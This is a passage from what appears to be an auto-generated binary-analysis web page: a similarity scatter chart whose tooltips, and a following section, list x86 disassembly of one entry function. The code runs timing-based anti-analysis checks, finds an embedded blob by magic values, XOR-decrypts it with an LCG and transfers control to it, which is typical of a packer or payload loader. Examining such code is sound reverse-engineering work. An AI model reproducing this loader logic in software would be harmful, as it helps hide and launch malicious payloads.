0x4030d2<br>call fcn.00403547<br>mov esi, dword[esp+0x1c]<br>test eax, eax<br>jne 0x4029c5<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 2<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov dword[esp+0x2c], eax<br>test eax, eax<br>je 0x4030ca<br>push 0x1000<br>push 0<br>push 0<br>push 4<br>push eax<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov edi, eax<br>test edi, edi<br>je 0x4030c2<br>mov ecx, edi<br>call fcn.00402537<br>push edi<br>mov esi, eax<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>lea eax, [esp+0x40]<br>push eax<br>push dword[esp+0x38]<br>call dword[sym.imp.KERNEL32.dll_GetFileSizeEx]<br>test eax, eax<br>je 0x4030b7<br>xor eax, eax<br>push eax<br>mov ecx, esi<br>add ecx, 0x1000<br>pop edx<br>adc eax, edx<br>cmp dword[esp+0x44], eax<br>jl 0x403089<br>jg 0x402e34<br>cmp dword[esp+0x40], ecx<br>jbe 0x403089<br>lea eax, [esi+0x1000]<br>push eax<br>push edx<br>push edx<br>push 4<br>push dword[esp+0x3c]<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov esi, eax<br>mov dword[esp+0x1c], esi<br>test esi, esi<br>je 0x40307e<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>push 3<br>xor edx, edx<br>mov eax, ecx<br>pop edi<br>div edi<br>test ecx, 0xffff8000<br>je 0x402e8b<br>test edx, edx<br>je 0x403128<br>cmp edx, 1<br>je 0x4029c8<br>jmp 0x402946<br>mov ecx, esi<br>call fcn.00402537<br>mov esi, eax<br>add esi, dword[esp+0x1c]<br>push 4<br>pop ebx<br>mov ecx, dword[esi]<br>add esi, ebx<br>cmp ecx, 0x6d7678<br>jne 0x403073<br>mov ecx, dword[esi]<br>add esi, ebx<br>cmp ecx, edi<br>jne 0x403068<br>mov edx, dword[esi]<br>mov edi, edx<br>imul edi, edi, 0x8088405<br>add esi, ebx<br>inc edi<br>mov ecx, dword[esi]<br>mov eax, edi<br>xor eax, edx<br>add esi, ebx<br>cmp eax, ecx<br>jne 0x40305d<br>mov ecx, dword[esi]<br>mov edx, edi<br>imul edx, edx, 0x8088405<br>inc edx<br>mov eax, edx<br>xor eax, edi<br>add esi, ebx<br>cmp eax, ecx<br>jne 0x403052<br>mov eax, dword[esi]<br>imul edx, edx, 0x8088405<br>inc edx<br>xor eax, edx<br>imul edx, edx, 0x8088405<br>add esi, ebx<br>inc edx<br>mov ecx, dword[esi]<br>xor ecx, edx<br>imul edx, edx, 0x2b9ad7e7<br>mov dword[esp+0x24], 0x8088406<br>sub dword[esp+0x24], edx<br>mov edx, dword[esp+0x24]<br>xor edx, dword[esi+8]<br>mov dword[esp+0x18], eax<br>mov eax, dword[esp+0x1c]<br>lea ebx, [esi+8]<br>sub ebx, eax<br>add ebx, 4<br>add edx, ebx<br>add edx, ecx<br>push eax<br>mov dword[esp+0x34], ecx<br>mov dword[esp+0x28], edx<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>push dword[esp+0x2c]<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 8<br>push eax<br>push dword[esp+0x48]<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov ecx, eax<br>mov dword[esp+0x2c], ecx<br>test ecx, ecx<br>je 0x403047<br>mov eax, dword[esp+0x30]<br>add eax, ebx<br>push eax<br>push 0<br>push 0<br>push 1<br>push ecx<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov esi, eax<br>mov dword[esp+0x1c], esi<br>test esi, esi<br>je 0x40303c<br>lea eax, [ebx+esi]<br>mov dword[esp+0x50], eax<br>mov ecx, eax<br>mov eax, dword[esp+0x30]<br>test eax, eax<br>je 0x402fb7<br>mov edx, eax<br>imul edi, edi, 0x343fd<br>add edi, 0x269ec3<br>mov eax, edi<br>shr eax, 0x10<br>xor byte[ecx], al<br>inc ecx<br>dec edx<br>jne 0x402fa0<br>xor eax, eax<br>push ecx<br>push ecx<br>lea ecx, [esp+0x68]<br>mov dword[esp+0x88], eax<br>mov dword[esp+0x8c], eax<br>mov dword[esp+0x90], eax<br>mov dword[esp+0x6c], eax<br>mov dword[esp+0x68], eax<br>call fcn.004036e0<br>pop ecx<br>pop ecx<br>test eax, eax<br>jne 0x403031<br>mov ebx, dword[esp+0x10]<br>jmp 0x402946<br>push ecx<br>push 0x401440<br>jmp 0x40319e<br>push ecx<br>push 0x401418<br>jmp 0x40319e<br>push ecx<br>push 0x4013f0<br>call fcn.0040249a<br>push 0xa<br>push dword[ebx+0x48]<br>jmp 0x403155<br>push ecx<br>push 0x4013dc<br>jmp 0x403147<br>push ecx<br>push 0x4013c8<br>jmp 0x403147<br>push ecx<br>push 0x401588<br>jmp 0x40319e<br>push ecx<br>push 0x401574<br>jmp 0x403147<br>push ecx<br>push 0x401560<br>jmp 0x403147<br>push ecx<br>push 0x401550<br>jmp 0x40319e<br>push ecx<br>push 0x401540<br>jmp 0x40319e<br>push ecx<br>push 0x401530<br>jmp 0x40319e<br>push ecx<br>push 0x401520<br>jmp 0x40319e<br>push ecx<br>push 0x40150c<br>jmp 0x403147<br>push ecx<br>push 0x4014f8<br>call fcn.0040249a<br>push 0xa<br>push dword[esp+0x44]<br>mov ecx, 0x406048<br>call fcn.00402433<br>push ecx<br>push 0x401468<br>call fcn.0040249a<br>push 0xa<br>push esi<br>jmp 0x403155<br>push ecx<br>push 0x4014e4<br>jmp 0x403147<br>push ecx<br>push 0x4014d0<br>jmp 0x403147<br>push ecx<br>push 0x4014bc<br>jmp 0x403147<br>push ecx<br>push 0x401470<br>jmp 0x403147<br>mov ecx, edi<br>call fcn.00402617<br>push 0x8000<br>push dword[esp+0x1c]<br>mov esi, eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_VirtualFree]<br>test esi, esi<br>je 0x4031a3<br>mov ecx, esi<br>call fcn.004034ee<br>mov ecx, esi<br>call fcn.0040258e<br>mov dword[esp+0x20], eax<br>test eax, eax<br>jne 0x40311c<br>push ecx<br>push 0x4015b0<br>jmp 0x40319e<br>push 0<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]<br>mov dword[esp+0x54], eax<br>mov edi, dword[esp+0x34]<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 2<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov esi, eax<br>test esi, esi<br>jne 0x403161<br>push ecx<br>push 0x4015c0<br>call fcn.0040249a<br>push 0xa<br>call dword[sym.imp.KERNEL32.dll_GetLastError]<br>push eax<br>mov ecx, 0x406048<br>call fcn.00402433<br>jmp 0x4031a3<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov eax, dword[esp+0x4c]<br>push eax<br>mov eax, dword[esp+0x28]<br>push ebx<br>add eax, 0xffff<br>and eax, 0xffff0000<br>push eax<br>push dword[esp+0x50]<br>push dword[esp+0x50]<br>push esi<br>push dword[esp+0x6c]<br>call dword[esp+0x3c]<br>add esp, 0x1c<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br>push ecx<br>push 0x401598<br>call fcn.0040249a<br>push 0x4015d4<br>push 0x4015e0<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryW]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>push 0x10<br>push 0x4015f8<br>push 0x406048<br>push 0<br>call eax<br>push 0xffffffffffffffff<br>call dword[sym.imp.KERNEL32.dll_ExitProcess]<br><eoc> ', 'null'],
[859.7798461914062, 222.49339294433594, '<b><a href="/report/entry0@d287262b3c4caae6c69c406382125319">entry0</a><br>@d287262b3c4caae6c69c406382125319</b><br>push ebp<br>mov ebp, esp<br>and esp, 0xfffffff8<br>sub esp, 0x88c<br>xor ecx, ecx<br>push ebx<br>push esi<br>mov ebx, ecx<br>push edi<br>mov dword[esp+0x10], ebx<br>mov dword[esp+0x4c], ecx<br>mov dword[esp+0x34], ecx<br>mov dword[esp+0x2c], ecx<br>mov dword[esp+0x1c], ecx<br>mov dword[esp+0x50], ecx<br>mov dword[esp+0x20], ecx<br>mov dword[esp+0x54], ecx<br>call fcn.00402322<br>mov esi, dword[sym.imp.KERNEL32.dll_GetTickCount]<br>call esi<br>and eax, 0x11<br>mov dword[esp+0x3c], 3<br>cmp eax, 0x111<br>je 0x4028f0<br>call esi<br>mov dword[0x406040], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x18], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x30], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x24], eax<br>jmp 0x4029c1<br>mov eax, dword[esp+0x20]<br>mov ecx, dword[esp+0x20]<br>mov dword[esp+0x30], eax<br>mov eax, dword[esp+0x20]<br>mov dword[esp+0x18], ecx<br>mov dword[esp+0x24], eax<br>mov esi, ebx<br>push 4<br>push 0x1000<br>push ecx<br>push 0<br>call dword[sym.imp.KERNEL32.dll_VirtualAlloc]<br>mov edi, eax<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div dword[esp+0x3c]<br>test ecx, 0xffff8000<br>je 0x40294c<br>test edx, edx<br>je 0x403128<br>cmp edx, 1<br>je 0x4029c1<br>mov ecx, dword[esp+0x18]<br>jmp 0x40290a<br>mov eax, dword[esp+0x30]<br>mov dword[esp+0x64], eax<br>mov eax, dword[esp+0x50]<br>mov dword[esp+0x60], eax<br>mov eax, dword[esp+0x18]<br>lea ecx, [esp+0x60]<br>mov dword[esp+0x70], eax<br>mov dword[esp+0x6c], edi<br>call fcn.00403800<br>cmp eax, 1<br>jne 0x403198<br>push esi<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>push dword[esp+0x2c]<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div dword[esp+0x3c]<br>test ecx, 0xffff8000<br>je 0x4030da<br>test edx, edx<br>je 0x403128<br>mov ecx, dword[esp+0x18]<br>cmp edx, 1<br>jne 0x40290a<br>mov esi, dword[esp+0x1c]<br>push 3<br>pop edi<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div edi<br>test ecx, 0xffff8000<br>jne 0x402e75<br>push ecx<br>call fcn.004024e2<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>xor edx, edx<br>mov eax, ecx<br>div edi<br>test ecx, 0xffff8000<br>jne 0x402e75<br>call fcn.0040348a<br>mov edi, dword[sym.imp.KERNEL32.dll_GetCommandLineW]<br>push 0x401378<br>lea esi, [eax+0xfe0]<br>call edi<br>push eax<br>call dword[0x406008]<br>test eax, eax<br>setne al<br>pop ecx<br>pop ecx<br>mov byte[esp+0x2b], al<br>test al, al<br>je 0x402a66<br>push 0x401234<br>call edi<br>push eax<br>call dword[0x406008]<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x402a66<br>mov ecx, esi<br>mov byte[esp+0x17], 1<br>call fcn.004031d7<br>test al, al<br>je 0x4031a3<br>xor ecx, ecx<br>jmp 0x402a7f<br>xor ecx, ecx<br>cmp dword[esi], 0x696d7678<br>mov byte[esp+0x17], cl<br>jne 0x402a7d<br>cmp dword[esi+4], 0x74636a6e<br>je 0x402a7f<br>mov esi, ecx<br>test esi, esi<br>je 0x402cc9<br>mov ebx, dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>push ecx<br>push ecx<br>push ecx<br>push 6<br>push dword[esi+0x18]<br>call ebx<br>mov edi, eax<br>mov dword[esp+0x10], edi<br>test edi, edi<br>je 0x403026<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 6<br>push dword[edi+0x1c]<br>call ebx<br>mov ebx, eax<br>mov dword[esp+0x4c], ebx<br>test ebx, ebx<br>je 0x40301b<br>mov ecx, dword[ebx+0x48]<br>cmp ecx, 0x3fc<br>jae 0x403006<br>mov eax, dword[ebx+0x4c]<br>add ecx, ecx<br>push ecx<br>add eax, ebx<br>push eax<br>lea eax, [esp+0xa8]<br>push eax<br>call dword[0x406020]<br>mov eax, dword[ebx+0x48]<br>xor ecx, ecx<br>mov word[esp+eax*2+0xac], cx<br>mov eax, dword[edi+0x40]<br>xor esi, esi<br>add esp, 0xc<br>xor ebx, ebx<br>mov dword[esp+0x38], esi<br>test eax, eax<br>je 0x402b30<br>cmp dword[edi+0x44], ecx<br>je 0x402b30<br>lea eax, [eax*2+2]<br>push eax<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetProcessHeap]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_HeapAlloc]<br>mov ebx, eax<br>test ebx, ebx<br>jne 0x402b3a<br>push ecx<br>push 0x401404<br>jmp 0x40319e<br>cmp byte[esp+0x17], cl<br>jne 0x402ffb<br>mov eax, dword[edi+0x50]<br>test eax, eax<br>je 0x402b72<br>cmp dword[edi+0x54], esi<br>je 0x402b72<br>lea eax, [eax*2+2]<br>push eax<br>push 0<br>call dword[sym.imp.KERNEL32.dll_GetProcessHeap]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_HeapAlloc]<br>mov esi, eax<br>mov dword[esp+0x38], esi<br>test esi, esi<br>jne 0x402b7d<br>push ecx<br>push 0x40142c<br>jmp 0x40319e<br>cmp byte[esp+0x2b], 0<br>jne 0x402ff0<br>mov eax, dword<br>mov eax, dword[eax+0x30]<br>mov edi, dword[eax+0x10]<br>test ebx, ebx<br>je 0x402bbf<br>mov ecx, dword[esp+0x10]<br>mov eax, dword[ecx+0x40]<br>add eax, eax<br>push eax<br>mov eax, dword[ecx+0x44]<br>add eax, ecx<br>push eax<br>push ebx<br>call dword[0x406020]<br>mov eax, dword[esp+0x1c]<br>add esp, 0xc<br>mov eax, dword[eax+0x40]<br>xor ecx, ecx<br>mov word[ebx+eax*2], cx<br>push ebx<br>lea eax, [edi+0x38]<br>push eax<br>call dword[0x406030]<br>test esi, esi<br>je 0x402c4f<br>mov ecx, dword[esp+0x10]<br>mov eax, dword[ecx+0x50]<br>add eax, eax<br>push eax<br>mov eax, dword[ecx+0x54]<br>add eax, ecx<br>push eax<br>push esi<br>call dword[0x406020]<br>mov eax, dword[esp+0x1c]<br>add esp, 0xc<br>mov eax, dword[eax+0x50]<br>push esi<br>xor ecx, ecx<br>add edi, 0x40<br>push edi<br>mov word[esi+eax*2], cx<br>call dword[0x406030]<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetCommandLineW]<br>push eax<br>call dword[section..data]<br>pop ecx<br>pop ecx<br>call dword[sym.imp.KERNEL32.dll_GetCommandLineA]<br>mov esi, eax<br>test esi, esi<br>je 0x402c4b<br>push 8<br>lea eax, [esp+0x5c]<br>push 0<br>push eax<br>call dword[0x40601c]<br>add esp, 0xc<br>lea eax, [esp+0x58]<br>push 1<br>push edi<br>push eax<br>call dword[0x40602c]<br>test eax, eax<br>js 0x402c48<br>push dword[esp+0x5c]<br>push esi<br>call dword[0x406010]<br>pop ecx<br>pop ecx<br>jmp 0x402c4b<br>mov byte[esi], 0<br>mov esi, dword[esp+0x38]<br>call fcn.004034cb<br>test al, al<br>je 0x402cf1<br>call fcn.0040348a<br>mov ecx, dword[eax+0x20]<br>xor edx, edx<br>cmp dword[eax+0x24], edx<br>ja 0x402cf1<br>jb 0x402c79<br>cmp ecx, 0x7fff0000<br>jae 0x402cf1<br>test ebx, ebx<br>je 0x402ca1<br>mov dword[ecx+0x68], ebx<br>mov ebx, dword[esp+0x10]<br>mov dword[ecx+0x6c], edx<br>mov ax, word[ebx+0x40]<br>add ax, ax<br>mov word[ecx+0x60], ax<br>mov ax, word[ebx+0x40]<br>inc ax<br>add ax, ax<br>mov word[ecx+0x62], ax<br>jmp 0x402ca5<br>mov ebx, dword[esp+0x10]<br>test esi, esi<br>je 0x402cf5<br>mov dword[ecx+0x78], esi<br>mov dword[ecx+0x7c], edx<br>mov ax, word[ebx+0x50]<br>add ax, ax<br>mov word[ecx+0x70], ax<br>mov ax, word[ebx+0x50]<br>inc ax<br>add ax, ax<br>mov word[ecx+0x72], ax<br>jmp 0x402cf5<br>mov esi, 0x3fc<br>push esi<br>lea eax, [esp+0xa4]<br>push eax<br>push ecx<br>call dword[sym.imp.KERNEL32.dll_GetModuleFileNameW]<br>test eax, eax<br>je 0x402ce6<br>cmp eax, esi<br>jne 0x402cf5<br>push ecx<br>push 0x401454<br>jmp 0x403147<br>mov ebx, dword[esp+0x10]<br>push 0x5c<br>pop eax<br>cmp word[esp+0xa0], ax<br>jne 0x402d15<br>cmp word[esp+0xa2], ax<br>jne 0x402d15<br>lea esi, [esp+0xa0]<br>jmp 0x402d34<br>push 8<br>lea eax, [esp+0x9c]<br>push 0x401678<br>push eax<br>call dword[0x406020]<br>add esp, 0xc<br>lea esi, [esp+0x98]<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>push 3<br>xor edx, edx<br>mov eax, ecx<br>pop edi<br>div edi<br>test ecx, 0xffff8000<br>je 0x402d6c<br>test edx, edx<br>je 0x403128<br>mov esi, dword[esp+0x1c]<br>cmp edx, 1<br>jne 0x402946<br>jmp 0x4029c8<br>push ecx<br>push esi<br>call fcn.0040249a<br>push ecx<br>push 0x401468<br>call fcn.0040249a<br>xor eax, eax<br>push eax<br>push eax<br>push edi<br>push eax<br>push 7<br>push 0x80000000<br>push esi<br>call dword[sym.imp.KERNEL32.dll_CreateFileW]<br>mov edi, eax<br>mov dword[esp+0x34], edi<br>cmp edi, 0xffffffff<br>je 0x4030d2<br>call fcn.00403547<br>mov esi, dword[esp+0x1c]<br>test eax, eax<br>jne 0x4029c5<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 2<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov dword[esp+0x2c], eax<br>test eax, eax<br>je 0x4030ca<br>push 0x1000<br>push 0<br>push 0<br>push 4<br>push eax<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov edi, eax<br>test edi, edi<br>je 0x4030c2<br>mov ecx, edi<br>call fcn.00402537<br>push edi<br>mov esi, eax<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>lea eax, [esp+0x40]<br>push eax<br>push dword[esp+0x38]<br>call dword[sym.imp.KERNEL32.dll_GetFileSizeEx]<br>test eax, eax<br>je 0x4030b7<br>xor eax, eax<br>push eax<br>mov ecx, esi<br>add ecx, 0x1000<br>pop edx<br>adc eax, edx<br>cmp dword[esp+0x44], eax<br>jl 0x403089<br>jg 0x402e34<br>cmp dword[esp+0x40], ecx<br>jbe 0x403089<br>lea eax, [esi+0x1000]<br>push eax<br>push edx<br>push edx<br>push 4<br>push dword[esp+0x3c]<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov esi, eax<br>mov dword[esp+0x1c], esi<br>test esi, esi<br>je 0x40307e<br>call fcn.00403526<br>mov ecx, eax<br>sub ecx, dword[0x406040]<br>push 3<br>xor edx, edx<br>mov eax, ecx<br>pop edi<br>div edi<br>test ecx, 0xffff8000<br>je 0x402e8b<br>test edx, edx<br>je 0x403128<br>cmp edx, 1<br>je 0x4029c8<br>jmp 0x402946<br>mov ecx, esi<br>call fcn.00402537<br>mov esi, eax<br>add esi, dword[esp+0x1c]<br>push 4<br>pop ebx<br>mov ecx, dword[esi]<br>add esi, ebx<br>cmp ecx, 0x6d7678<br>jne 0x403073<br>mov ecx, dword[esi]<br>add esi, ebx<br>cmp ecx, edi<br>jne 0x403068<br>mov edx, dword[esi]<br>mov edi, edx<br>imul edi, edi, 0x8088405<br>add esi, ebx<br>inc edi<br>mov ecx, dword[esi]<br>mov eax, edi<br>xor eax, edx<br>add esi, ebx<br>cmp eax, ecx<br>jne 0x40305d<br>mov ecx, dword[esi]<br>mov edx, edi<br>imul edx, edx, 0x8088405<br>inc edx<br>mov eax, edx<br>xor eax, edi<br>add esi, ebx<br>cmp eax, ecx<br>jne 0x403052<br>mov eax, dword[esi]<br>imul edx, edx, 0x8088405<br>inc edx<br>xor eax, edx<br>imul edx, edx, 0x8088405<br>add esi, ebx<br>inc edx<br>mov ecx, dword[esi]<br>xor ecx, edx<br>imul edx, edx, 0x2b9ad7e7<br>mov dword[esp+0x24], 0x8088406<br>sub dword[esp+0x24], edx<br>mov edx, dword[esp+0x24]<br>xor edx, dword[esi+8]<br>mov dword[esp+0x18], eax<br>mov eax, dword[esp+0x1c]<br>lea ebx, [esi+8]<br>sub ebx, eax<br>add ebx, 4<br>add edx, ebx<br>add edx, ecx<br>push eax<br>mov dword[esp+0x34], ecx<br>mov dword[esp+0x28], edx<br>call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]<br>push dword[esp+0x2c]<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 8<br>push eax<br>push dword[esp+0x48]<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov ecx, eax<br>mov dword[esp+0x2c], ecx<br>test ecx, ecx<br>je 0x403047<br>mov eax, dword[esp+0x30]<br>add eax, ebx<br>push eax<br>push 0<br>push 0<br>push 1<br>push ecx<br>call dword[sym.imp.KERNEL32.dll_MapViewOfFile]<br>mov esi, eax<br>mov dword[esp+0x1c], esi<br>test esi, esi<br>je 0x40303c<br>lea eax, [ebx+esi]<br>mov dword[esp+0x50], eax<br>mov ecx, eax<br>mov eax, dword[esp+0x30]<br>test eax, eax<br>je 0x402fb7<br>mov edx, eax<br>imul edi, edi, 0x343fd<br>add edi, 0x269ec3<br>mov eax, edi<br>shr eax, 0x10<br>xor byte[ecx], al<br>inc ecx<br>dec edx<br>jne 0x402fa0<br>xor eax, eax<br>push ecx<br>push ecx<br>lea ecx, [esp+0x68]<br>mov dword[esp+0x88], eax<br>mov dword[esp+0x8c], eax<br>mov dword[esp+0x90], eax<br>mov dword[esp+0x6c], eax<br>mov dword[esp+0x68], eax<br>call fcn.004036e0<br>pop ecx<br>pop ecx<br>test eax, eax<br>jne 0x403031<br>mov ebx, dword[esp+0x10]<br>jmp 0x402946<br>push ecx<br>push 0x401440<br>jmp 0x40319e<br>push ecx<br>push 0x401418<br>jmp 0x40319e<br>push ecx<br>push 0x4013f0<br>call fcn.0040249a<br>push 0xa<br>push dword[ebx+0x48]<br>jmp 0x403155<br>push ecx<br>push 0x4013dc<br>jmp 0x403147<br>push ecx<br>push 0x4013c8<br>jmp 0x403147<br>push ecx<br>push 0x401588<br>jmp 0x40319e<br>push ecx<br>push 0x401574<br>jmp 0x403147<br>push ecx<br>push 0x401560<br>jmp 0x403147<br>push ecx<br>push 0x401550<br>jmp 0x40319e<br>push ecx<br>push 0x401540<br>jmp 0x40319e<br>push ecx<br>push 0x401530<br>jmp 0x40319e<br>push ecx<br>push 0x401520<br>jmp 0x40319e<br>push ecx<br>push 0x40150c<br>jmp 0x403147<br>push ecx<br>push 0x4014f8<br>call fcn.0040249a<br>push 0xa<br>push dword[esp+0x44]<br>mov ecx, 0x406048<br>call fcn.00402433<br>push ecx<br>push 0x401468<br>call fcn.0040249a<br>push 0xa<br>push esi<br>jmp 0x403155<br>push ecx<br>push 0x4014e4<br>jmp 0x403147<br>push ecx<br>push 0x4014d0<br>jmp 0x403147<br>push ecx<br>push 0x4014bc<br>jmp 0x403147<br>push ecx<br>push 0x401470<br>jmp 0x403147<br>mov ecx, edi<br>call fcn.00402617<br>push 0x8000<br>push dword[esp+0x1c]<br>mov esi, eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_VirtualFree]<br>test esi, esi<br>je 0x4031a3<br>mov ecx, esi<br>call fcn.004034ee<br>mov ecx, esi<br>call fcn.0040258e<br>mov dword[esp+0x20], eax<br>test eax, eax<br>jne 0x40311c<br>push ecx<br>push 0x4015b0<br>jmp 0x40319e<br>push 0<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]<br>mov dword[esp+0x54], eax<br>mov edi, dword[esp+0x34]<br>xor eax, eax<br>push eax<br>push eax<br>push eax<br>push 2<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileMappingW]<br>mov esi, eax<br>test esi, esi<br>jne 0x403161<br>push ecx<br>push 0x4015c0<br>call fcn.0040249a<br>push 0xa<br>call dword[sym.imp.KERNEL32.dll_GetLastError]<br>push eax<br>mov ecx, 0x406048<br>call fcn.00402433<br>jmp 0x4031a3<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov eax, dword[esp+0x4c]<br>push eax<br>mov eax, dword[esp+0x28]<br>push ebx<br>add eax, 0xffff<br>and eax, 0xffff0000<br>push eax<br>push dword[esp+0x50]<br>push dword[esp+0x50]<br>push esi<br>push dword[esp+0x6c]<br>call dword[esp+0x3c]<br>add esp, 0x1c<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br>push ecx<br>push 0x401598<br>call fcn.0040249a<br>push 0x4015d4<br>push 0x4015e0<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryW]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>push 0x10<br>push 0x4015f8<br>push 0x406048<br>push 0<br>call eax<br>push 0xffffffffffffffff<br>call dword[sym.imp.KERNEL32.dll_ExitProcess]<br><eoc> ', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
and esp, 0xfffffff8
sub esp, 0x88c
xor ecx, ecx
push ebx
push esi
mov ebx, ecx
push edi
mov dword[esp+0x10], ebx
mov dword[esp+0x4c], ecx
mov dword[esp+0x34], ecx
mov dword[esp+0x2c], ecx
mov dword[esp+0x1c], ecx
mov dword[esp+0x50], ecx
mov dword[esp+0x20], ecx
mov dword[esp+0x54], ecx
call fcn.00402322
mov esi, dword[sym.imp.KERNEL32.dll_GetTickCount]
call esi
and eax, 0x11
mov dword[esp+0x3c], 3
cmp eax, 0x111
je 0x4028f0
call esi
mov dword[0x406040], eax
mov eax, dword[esp+0x20]
mov dword[esp+0x18], eax
mov eax, dword[esp+0x20]
mov dword[esp+0x30], eax
mov eax, dword[esp+0x20]
mov dword[esp+0x24], eax
jmp 0x4029c1
mov eax, dword[esp+0x20]
mov ecx, dword[esp+0x20]
mov dword[esp+0x30], eax
mov eax, dword[esp+0x20]
mov dword[esp+0x18], ecx
mov dword[esp+0x24], eax
mov esi, ebx
push 4
push 0x1000
push ecx
push 0
call dword[sym.imp.KERNEL32.dll_VirtualAlloc]
mov edi, eax
call fcn.00403526
mov ecx, eax
sub ecx, dword[0x406040]
xor edx, edx
mov eax, ecx
div dword[esp+0x3c]
test ecx, 0xffff8000
je 0x40294c
test edx, edx
je 0x403128
cmp edx, 1
je 0x4029c1
mov ecx, dword[esp+0x18]
jmp 0x40290a
mov eax, dword[esp+0x30]
mov dword[esp+0x64], eax
mov eax, dword[esp+0x50]
mov dword[esp+0x60], eax
mov eax, dword[esp+0x18]
lea ecx, [esp+0x60]
mov dword[esp+0x70], eax
mov dword[esp+0x6c], edi
call fcn.00403800
cmp eax, 1
jne 0x403198
push esi
call dword[sym.imp.KERNEL32.dll_UnmapViewOfFile]
push dword[esp+0x2c]
call dword[sym.imp.KERNEL32.dll_CloseHandle]
call fcn.00403526
mov ecx, eax
sub ecx, dword[0x406040]
xor edx, edx
mov eax, ecx
div dword[esp+0x3c]
test ecx, 0xffff8000
je 0x4030da
test edx, edx
je 0x403128
mov ecx, dword[esp+0x18]
cmp edx, 1
jne 0x40290a
mov esi, dword[esp+0x1c]
push 3
pop edi
call fcn.00403526
mov ecx, eax
sub ecx, dword[0x406040]
xor edx, edx
mov eax, ecx
div edi
test ecx, 0xffff8000
jne 0x402e75
push ecx
call fcn.004024e2
call fcn.00403526
mov ecx, eax
sub ecx, dword[0x406040]
xor edx, edx
mov eax, ecx
div edi
test ecx, 0xffff8000
jne 0x402e75
call fcn.0040348a
mov edi, dword[sym.imp.KERNEL32.dll_GetCommandLineW]
push 0x401378
lea esi, [eax+0xfe0]
call edi
push eax
call dword[0x406008]
test eax, eax
setne al
pop ecx
pop ecx
mov byte[esp+0x2b], al
test al, al
je 0x402a66
push 0x401234
call edi
push eax
call dword[0x406008]
pop ecx
pop ecx
test eax, eax
je 0x402a66
mov ecx, esi
mov byte[esp+0x17], 1
call fcn.004031d7
test al, al
je 0x4031a3
xor ecx, ecx
jmp 0x402a7f
xor ecx, ecx
cmp dword[esi], 0x696d7678
mov byte[esp+0x17], cl
jne 0x402a7d
cmp dword[esi+4], 0x74636a6e
je 0x402a7f
mov esi, ecx
test esi, esi
je 0x402cc9
mov ebx, dword[sym.imp.KERNEL32.dll_MapViewOfFile]
push ecx
push ecx
push ecx
push 6
push dword[esi+0x18]
call ebx
mov edi, eax
